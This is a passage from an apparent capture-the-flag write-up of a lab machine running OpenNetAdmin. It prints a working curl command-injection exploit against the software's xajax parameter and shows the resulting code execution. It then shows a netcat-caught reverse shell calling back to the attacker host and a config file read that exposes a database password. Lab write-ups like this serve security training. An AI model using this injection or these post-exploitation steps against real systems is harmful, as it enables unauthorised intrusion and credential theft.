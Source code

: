     It prompts the user to enter a command (cmd) repeatedly.

Sends the command to the target via a vulnerable parameter:

curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}"

    This POST request injects your command (${cmd}) into a parameter (xajaxargs[]) that ends up getting executed by the server.

    It wraps the command with echo "BEGIN" and echo "END" so it can extract the output cleanly.

Extracts the command output from the response:

| sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1

    sed: Grab everything between BEGIN and END.

    tail/head: Remove the BEGIN/END lines, showing only the command output.



We run the script and gain code execution.
```sh
❯ ./OpenNetAdmin_RCE.sh http://10.129.100.13/ona/
Command executed at: 2025-03-22 14:21:09
$ whoami
www-data
$ hostname
openadmin
```

Uploaded a php reverse shell to get a better shell on the box.

```sh
 nc -lvnp 4444
Command executed at: 2025-03-22 14:31:31
listening on [any] 4444 ...
connect to [10.10.14.89] from (UNKNOWN) [10.129.100.13] 59010
Linux openadmin 4.15.0-70-generic #79-Ubuntu SMP Tue Nov 12 10:36:11 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 21:31:52 up 54 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (3175): Inappropriate ioctl for device
bash: no job control in this shell
www-data@openadmin:/$ 
```

Discovered a database file that contains the credentials for `ona_sys`

```sh
www-data@openadmin:/$ cat /opt/ona/www/local/config/database_settings.inc.php 
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
```